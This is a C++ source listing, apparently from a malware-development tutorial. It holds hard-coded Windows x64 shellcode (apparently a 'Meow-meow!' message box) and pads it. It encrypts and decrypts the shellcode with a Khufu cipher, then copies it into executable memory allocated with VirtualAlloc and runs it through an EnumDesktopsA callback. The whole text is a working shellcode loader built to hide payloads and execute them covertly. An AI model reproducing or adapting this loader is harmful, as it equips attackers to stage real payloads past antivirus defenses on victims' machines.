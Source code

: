 ```cpp

int main() {
  unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  int my_payload_len = sizeof(my_payload);
  int pad_len = my_payload_len + (8 - my_payload_len % 8) % 8;
  unsigned char padded[pad_len];
  memset(padded, 0x90, pad_len);
  memcpy(padded, my_payload, my_payload_len);

  printf("original shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  khufu_encrypt_shellcode(padded, pad_len);

  printf("encrypted shellcode: ");
  for (int i = 0; i < pad_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  khufu_decrypt_shellcode(padded, pad_len);

  printf("decrypted shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", padded[i]);
  }

  printf("\n\n");

  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, (LPARAM)NULL);
  return 0;
}
```
